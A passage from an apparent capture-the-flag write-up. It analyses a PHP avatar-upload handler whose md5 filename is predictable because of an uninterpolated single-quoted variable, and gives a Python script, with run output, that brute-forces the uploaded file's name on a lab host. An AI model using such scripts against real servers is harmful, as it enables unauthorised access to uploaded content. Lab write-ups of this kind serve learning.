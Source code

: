 Reading `/var/www/html/Results/js/avatar_uploader.js` we observe it acts as a middleware to upload an image. Retrieves the image from the input and sends it to `upload.php` by POST.
On `upload.php` we know where the images are uploaded, at `/images/uploads`, but also, it only accepts jpg files:
```php
if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}
```
In addition, the image is renamed by the steps:
```php
$file_hash = uniqid();
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
```
So accessing the file can be hard. 

To access the file we need to use the following script, but notice that `'$file_hash` is not actually replacing, as in php, the $ replacement can only be done in double quoted strings.
```python
from hashlib import md5
from posixpath import basename
from sys import argv
import time, math, random
from requests import request

 # Get file from args
url = argv[1]
file_to_upload = argv[2]


while True:
    #file_hash = uniqid()
    file_name =  md5('$file_hash'.encode() + str(int(time.time())).encode()).hexdigest() + '_' + basename(file_to_upload)
    # Create a string that contains the time in mm:ss format
    seconds = str(int(time.time() % 60))
    print(seconds +" -> " +file_name)

    # perform GET request with the file name to the url
    req = request('GET', url + file_name)
    data = req.content
    if len(data) != 0:
        print("File found on:" + file_name)
        break

    time.sleep(1)
```

Success!!!! As seen below we can now obtain the name of the uploaded file.
```bash
❯ python3 Exploits/obtain_filename.py "http://10.10.11.135/image.php?img=images/uploads/" black.jpg
39 -> 68d6743b75786b2f0847950c57156ee0_black.jpg
40 -> aa5a30f633e78ae74eb04882ce1a9ba4_black.jpg
41 -> 980d012ba39215a0799309dc86e094a1_black.jpg
42 -> e2dc2e11052902c146eda920fd456c95_black.jpg
File found on:e2dc2e11052902c146eda920fd456c95_black.jpg
```
